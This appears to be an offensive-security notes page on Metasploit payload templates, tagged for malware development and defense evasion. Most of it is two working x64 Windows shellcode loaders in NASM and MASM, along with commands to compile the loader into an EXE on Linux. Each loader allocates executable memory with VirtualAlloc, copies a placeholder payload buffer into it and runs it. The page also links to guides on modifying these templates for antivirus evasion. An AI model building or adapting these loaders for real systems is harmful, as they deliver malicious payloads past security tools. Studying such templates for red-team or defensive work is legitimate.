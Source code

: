 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - malware-development
  - defense-evasion
---
```

# String Substitution

There is a limitation with this method. It uses a few supported payload formats (refer to the [[Metasploit Payload Templates References|table reference]]).

TODO: Write steps to compile EXE and copy in the templates file destination

## 01 - EXE

### 1.1 - NASM

```nasm
extern ExitProcess
extern VirtualAlloc

section .data
    payload db 'PAYLOAD:', 4096-8 dup (0)

section .text
    global main
    global _start

_start:
    call main
    xor rcx, rcx               ; Exit code 0
    call ExitProcess           ; ExitProcess(0)

main:
    sub rsp, 40                ; Allocate shadow space for function calls (Windows x64 ABI requirement)

    mov r9, 40h                ; PAGE_EXECUTE_READWRITE
    mov r8, 3000h              ; MEM_COMMIT | MEM_RESERVE
    mov rdx, 4096              ; Size of memory allocation
    xor rcx, rcx               ; NULL for lpAddress
    call VirtualAlloc          ; lpPayload = VirtualAlloc(NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)

    mov rcx, 4096              ; Size of payload to copy
    mov rsi, payload           ; Source address
    mov rdi, rax               ; Destination address (lpPayload)
    rep movsb                  ; memcpy(lpPayload, payload, 4096)

    call rax                   ; Execute the payload
```

Compile Windows binaries in Linux

```
$ nasm -f win64 payload.asm -o payload.obj

$ x86_64-w64-mingw32-ld -b pe-x86-64 -e _start -l kernel32 -o payload.exe payload.obj
```

### 1.2 - MASM

```nasm
; Author: Stephen Fewer (stephen_fewer[at]harmonysecurity[dot]com)
; Architecture: x64
;
; Assemble and link with the following command:
; "C:\Program Files\Microsoft Visual Studio 9.0\VC\bin\x86_amd64\ml64" template_x64_windows.asm /link /subsystem:windows /defaultlib:"C:\Program Files\Microsoft SDKs\Windows\v6.0A\Lib\x64\kernel32.lib" /entry:main 

extrn ExitProcess : proc
extrn VirtualAlloc : proc

.code

	main proc
		sub rsp, 40        ; Allocate shadow space for function calls (Windows x64 ABI requirement)
		mov r9, 40h        ; PAGE_EXECUTE_READWRITE
		mov r8, 3000h      ; MEM_COMMIT | MEM_RESERVE
		mov rdx, 4096      ; Size of memory allocation
		xor rcx, rcx       ;
		call VirtualAlloc  ; lpPayload = VirtualAlloc( NULL, 4096, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE );
		mov rcx, 4096      ;
		mov rsi, payload   ;
		mov rdi, rax       ;
		rep movsb          ; memcpy( lpPayload, payload, 4096 );
		call rax           ; lpPayload();
		xor rcx, rcx       ;
		call ExitProcess   ; ExitProcess( 0 );
	main endp

	payload proc
		A byte 'PAYLOAD:'
		B db 4096-8 dup ( 0 )
	payload endp
end
```

---
## References

### Payloads

- [Rapid7: Metasploit Framework PE Templates Source](https://github.com/rapid7/metasploit-framework/tree/master/data/templates/src/pe/exe)

### How to Modify Payload Templates

- [Red Team Notes: AV Bypass with Metasploit Templates and Custom Binaries](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates)

- [Modifying Metasploit x64 template for AV evasion](http://blog.packetheader.net/2015/10/modifying-metasploit-x64-template-for_29.html)

- [Black Hills Information Security: Modifying Metasploit x64 template for AV evasion](https://www.blackhillsinfosec.com/modifying-metasploit-x64-template-for-av-evasion/)